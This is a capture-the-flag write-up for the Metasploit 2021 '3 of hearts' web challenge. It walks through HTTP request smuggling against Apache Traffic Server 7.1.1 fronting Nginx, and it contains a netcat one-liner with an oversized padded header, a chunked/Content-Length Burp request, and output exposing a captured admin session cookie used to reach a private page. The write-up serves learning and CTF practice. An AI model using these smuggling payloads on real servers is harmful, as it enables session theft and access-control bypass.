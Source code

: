 ```yaml
---
layout: load_md
title: The White Circle | Metasploit 2021 | 3 of hearts Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Metasploit 2021
parent: metasploit_2021
category: 3_of_hearts
challenge: 3 of hearts
tags: "web, starry, http request smuggling"
date: 2021-12-08T00:00:00+00:00
last_update: 2021-12-08T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Metasploit 2021</h1>
## 3 of hearts

> Solved too late by : Starry-lord

```
Port 33337
```

I solved this one after the competition but still felt compelled to share the process.

This one gave me a hard time, firstly because I hadn't seen HTTP request smuggling scenarios before. 

Trying to connect to the target IP:33337 redirects to a domain name 

```
threeofhearts.ctf.net
```

And displays an empty page with only the following content:

```
<script>console.log(zp2)</script>
```

Some snooping showed me the initial request was made to an Apache traffic server 7.1.1 and the second one to an Nginx server 1.15.5. 
After a few research I realized there wasn't much resource on the subject, but here's what I found :

- PortSwigger Web academy
- https://medium.com/@knownsec404team/protocol-layer-attack-http-request-smuggling-cc654535b6f 
- https://regilero.github.io/english/security/2019/10/17/security_apache_traffic_server_http_smuggling/

Sadly no time for going through academy through the ctf but will definitely look into it in a nearby future. 

I used 2 ways to try and see what was going on :

### Way n°1 - CLI

```
printf 'GET_/somthingthatdoesntexist_HTTP/1.1\r\n'\
'Host:threeofhearts.ctf.net\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://threeofhearts.ctf.net/_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 172.17.15.117 33337
```

So here we manage to get double request by adding 65534 empty spaces between 2 get requests. 

First one results in a 400 error and second request goes through and shows the content of the internal website. 

```
┌──(kali㉿kali)-[~/.starlord]
└─$ printf 'GET_/somethingNotThere_HTTP/1.1\r\n'\
'Host:threeofhearts.ctf.net\r\n'\
'X:_"%65534s"\r\n'\
'GET_http://threeofhearts.ctf.net/out/save.txt_HTTP/1.1\r\n'\
'\r\n'\
|tr " " "1"\
|tr "_" " "\
|nc -q 1 172.17.15.117 33337
HTTP/1.1 400 Invalid HTTP Request
Date: Sun, 05 Dec 2021 23:34:29 GMT
Connection: keep-alive
Server: ATS/7.1.1
Cache-Control: no-store
Content-Type: text/html
Content-Language: en
Content-Length: 220

<HTML>
<HEAD>
<TITLE>Bad Request</TITLE>
</HEAD>

<BODY BGCOLOR="white" FGCOLOR="black">
<H1>Bad Request</H1>
<HR>

<FONT FACE="Helvetica,Arial"><B>
Description: Could not process this request. 
</B></FONT>
<HR>
</BODY>
HTTP/1.1 200 OK
Server: ATS/7.1.1
Date: Sun, 05 Dec 2021 23:34:29 GMT
Content-Type: text/plain
Content-Length: 151
Last-Modified: Sun, 05 Dec 2021 23:08:15 GMT
ETag: "61ad465f-97"
X-Requested: /out/save.txt
Accept-Ranges: bytes
Age: 0
Connection: keep-alive

Params:
Headers:
        X-Access: 
        Cookie: 

Params:
        cache=0
Headers:
        X-Access: 
        Cookie: 

Params:
        var1=star
        var2=lord
Headers:
        X-Access: 
        Cookie: 

                                                                                
┌──(kali㉿kali)-[~/.starlord]
└─$ 
```

### WAY n°2 - BurpSuite

It also worked with just a 0 in between GET requests and would be easier to input to burpsuite. 

The website's content would only show itself in a browser if the request was intercepted and its “Host” header manually set to threeofhearts.ctf.net

From there I found a small page with a PHP form for var1 and var2. By pressing submit, a GET request would be sent to /save.php and populate an entry in the above queried file (/out/save.txt).

There was a /private.php we were denied access to, where the flag was clearly hidden. This is the point where I had most trouble trouble realizing what was going on. 

I knew we had to craft or find the right cookie to access the private.php but didn't understand the fundamental of the HTTP request smuggling attack.

Turns out when you manage to split the request successfully, the second one will be sent from the server, which means admin headers in /out/save.txt in this case.

This was the burp request :

```
GET / HTTP/1.1
Host: threeofhearts.ctf
Transfer-Encoding: chunked
Content-Length:53

0

GET /save.php?var1=something&var2=something HTTP/1.1
```

Then making a request to /out/save.txt showed the following :

```
Headers:
  X-Access: private
  Cookie: PHPSESSID=theAdminPhpSessionId
  
Params:
  var1=something
  var2=something
Headers:
  X-Access:
  Cookie:
```

visiting /private.php with those header gave the un-guessable page link for the flag.

![](https://i.imgur.com/VPSwASa.png)